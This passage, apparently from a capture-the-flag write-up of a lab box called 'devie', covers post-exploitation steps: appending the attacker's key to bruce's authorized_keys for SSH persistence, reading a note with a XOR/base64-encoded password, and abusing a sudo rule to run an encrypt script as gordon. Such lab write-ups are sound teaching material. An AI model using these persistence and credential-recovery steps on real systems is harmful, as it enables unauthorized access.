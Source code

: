 We can add our `id_rsa` key to `authorized_keys` and migrate to `ssh`, let's do it:

```bash
echo 'OUR_ID_RSA.PUB KEY' >> /home/bruce/.ssh/authorized_keys
```

Now, let's go into ssh:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504144058.png)

Nice, let's proceed to analyze those interesting files we found `checklist` and `note`:

```bash
bruce@devie:~$ cat note
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

```bash
cat checklist
Web Application Checklist:
1. Built Site - check
2. Test Site - check
3. Move Site to production - check
4. Remove dangerous fuctions from site - check
Bruce


```

If we check our `sudo -l` privileges:

```bash
bruce@devie:~$ sudo -l
Matching Defaults entries for bruce on devie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bruce may run the following commands on devie:
    (gordon) NOPASSWD: /usr/bin/python3 /opt/encrypt.py
```

We can run `/usr/bin/python3 /opt/encrypt.py` as gordon, let's check it out:

```
bruce@devie:~$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: NEUEDTIeN1MRDg5K
PTAlIDYnLAY8VDk5IR5NJA==
```
